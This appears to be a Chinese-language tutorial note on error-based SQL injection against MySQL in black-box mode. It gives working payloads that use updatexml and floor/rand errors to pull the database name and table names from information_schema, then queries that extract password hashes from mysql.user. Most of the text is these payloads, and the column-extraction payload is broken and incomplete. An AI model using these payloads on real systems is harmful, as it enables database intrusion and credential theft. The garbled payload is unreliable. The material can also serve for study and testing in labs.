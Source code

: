




### 在黑盒模式下进行报错注入

	流程还是根之前一样 库名-》表名-》字段-》字段内容

#### 获取库名	

```mysql
1' and (updatexml(1,(select concat('`',(select database()),'`')),1))-- 
```

#### 获取表名 这次用floor报错，floor报错不会出现长度问题

```mysql
1' and (select 1 from (select count(*),concat((select (select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema=database() limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) as x from information_schema.tables group by x)a)-- 
```

获取表名为 guestbook 将limit 0,1 改成 1，1是获取第二个表users

#### 获取字段

获取users第一个字段

```mysql
1' and (select 1 from(select count(*),,))
```





 获取账号密码

获取账号和密码需要root权限

```mysql
select authentication_string from mysql.user limit 1;
select(updatexml(1,concat(0x7e,(select (select authentication_string from mysql.user limit 1 )),0x7e),1))
select(updatexml(1,concat(0x7e,(select (substring((select authentication_string from mysql.user limit 1),32,40))),0x7e),1))
```


![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232408409-1564081412.jpg)